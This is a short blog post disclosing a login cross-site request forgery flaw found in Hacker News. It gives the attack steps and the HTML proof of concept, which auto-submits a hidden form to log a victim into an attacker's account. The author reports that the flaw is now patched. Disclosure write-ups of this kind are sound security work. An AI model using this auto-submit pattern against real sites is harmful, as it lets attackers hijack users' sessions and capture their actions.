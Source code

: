 ```yaml
---
layout: post
title: "Hacker News CSRF Vulnerability"
description: "How I found a CSRF vulnerability in Hacker News"
category: articles
modified: 2016-02-24
---
```

  
On February 17th, I discovered a session riding vulnerability on the login and logout forms of Hacker News. It was a textbook cross site request forgery (CSRF), triggered by clicking an article posted by the attacker.

The attack worked like this:

1. Attacker submits a title like "CSRF And You (2008)" with a URL that points to the exploit code.
2. User clicks on interesting article.
3. User is logged out of account, silently logged into an attacker-controlled account, and sent to the comments section.
4. User reads comments section for interesting article.
5. User does other, more sensitive actions in the attacker-controlled account (apply for YC? change email? add credit card? make brilliant karma-rich submission?).

The exploit code looked like this:

    <body onload="document.getElementById('csrf_demo').submit()" style="display:none;">
      <img src="https://news.ycombinator.com/logout" />
      <form id="csrf_demo" action="https://news.ycombinator.com/login" method="post">
        <input name="goto" value="item?id=11122018">
        <input name="acct" value="csrf">
        <input name="pw" value="password">
      </form>
    </body>

I contacted Dan at Hacker News and the team immediately patched the vulnerabilities. This attack no longer works as described above.

To learn more about CSRF and how to protect your site against attacls like this one, read Jeff Atwood's excellent [CSRF and You (2008)](http://blog.codinghorror.com/cross-site-request-forgeries-and-you/) and review the [OWASP Wiki on CSRF](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)). 

[Disclosure](https://news.ycombinator.com/security.html)